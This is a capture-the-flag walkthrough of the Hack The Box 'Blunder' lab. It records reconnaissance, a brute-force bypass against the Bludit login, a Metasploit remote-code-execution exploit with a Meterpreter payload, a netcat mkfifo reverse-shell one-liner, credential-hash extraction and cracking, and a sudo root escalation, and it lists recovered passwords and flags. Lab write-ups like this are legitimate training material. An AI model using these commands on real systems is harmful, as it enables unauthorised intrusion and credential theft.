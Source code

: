 IP: 10.10.10.191

1. nmap

nmap -sV -sC -Pn -T4 -v -p- --min-rate=10000 10.10.10.191

Output: nmap-output.txt

2. gobuster

gobuster dir -u 10.10.10.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

No output - Error.

3. Search /admin

http://10.10.10.191/admin/ = Login Page
In Page source:
<input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="4c6df3daf04ef4593f0d0a932f2b8a8d8c1736cb">

4. dirsearch

sudo dirsearch -u 10.10.10.191 -e *

-u = URL
-e = Extension (.txt, .php etc.)

Output: dirsearch-output.txt

5. wfuzz

wfuzz -u http://10.10.10.191/FUZZ.txt -w /usr/share/seclists/Discovery/Web-Content/big.txt --sc 200

Output: wfuzz-output.txt

6. Navigate to TODO File:

Output:

-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

We have found a name - fergus.

7. I got stuck here and decided to search around + ask on forums, was told to use cewl + Bludit Brute Force Mitigation Bypass:
https://tools.kali.org/password-attacks/cewl
https://rastating.github.io/bludit-brute-force-mitigation-bypass/

(a) Generate wordlist

cewl -w wordlist.txt -d 10 -m 1 http://10.10.10.191/

http://stuffjasondoes.com/2018/07/18/creating-custom-wordlists-for-targeted-attacks-with-cewl/

-d = Depth to spider to --> e.g. if d=0 (0 links deep), meaning we only want to gather words from this specific page. Since its 10, we want to gather words that are 10 links deep.
-m = Minimum word length.
-w = Text file name, where wordlist is to be captured.

(b) Download + Edit the Bludit Brute Force Mitigation Bypass.

nano bludit-bf.py

Change to:
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = '/home/kali/labs/hackthebox/Blunder/files/wordlist.txt'

Remove part that mentions #generate 50 incorrect passwords.

- https://fdlucifer.github.io/2020-06-05-blunder.html has a better one to use!

(c) Run the bludit-bf.py

python bludit-bf.py

Output:
...
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
()

8. Sign in to Bludit
Go to Edit User, found an Authentication token
0e8011811356c0c5bd2211cba8c50471

Right Click, View Source Code.
Line 46, 47:
var BLUDIT_VERSION = "3.9.2";
var BLUDIT_BUILD = "20190530";

9. Search for CVE + Metasploit for Vulnerability + Exploit

CVE-2019-16113 	Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

in mfsmodule:

`search 2019-16113`
`use bludit_upload_images_exec`
`show payloads`
- This will show all compatible payloads.
`set payload php/meterpreter/reverse_tcp`
`set rhosts 10.10.10.191`
`set rport 80`
`set lhost 10.10.14.24`
`set lport 4444`
`set targeturi /`
`set bluditpass RolandDeschain`
`set bludituser fergus`
`run`

In Meterpreter:
`shell`

In a new local terminal A:
`nc -lvnp 5555`

In Metasploit Shell B:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

In A:
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In (same terminal window) Kali
$ stty -a
# Make a note of Rows + Columns, (rows 24; columns 114;)
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 24 columns 114
```
10. Look around

cd ..
cd databases
cat users.php
Output: usersphp-output.txt

Found admin info here = /var/www/bludit-3.9.2/bl-content/databases:

"role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00"

In /var/www/bludit-3.10.0a/bl-content/databases there is also a users.php file.
Output: usersphp-bludit310-output.txt

Found Hugo Password:

"password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

Anaylsed using hash-identifier:

hash-identifier faca404fd5c0a31cf1897b823c695c85cffeb98d
Output: hashid.txt
Possibly SHA1, so let's try to decrypt.
Tried hashcat but took ages, used https://md5decrypt.net/en/Sha1/
Password for Hugo = Password120

su hugo
Password: Password120

Logged in as Hugo!

Navigate to /home/hugo.
User.txt:
b0bb7b5f48e7cf773cd5d6f9c0451e77

---
Privilege Escalation

sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

Searching for that last line:

https://www.exploit-db.com/exploits/47502
Shows us that we can use:

sudo -u#-1 /bin/bash

To get a root shell.

Reasoning: root-using-bangroot.txt

cat /root/root.txt
67001b18c903fa43580661c994ee1bb7

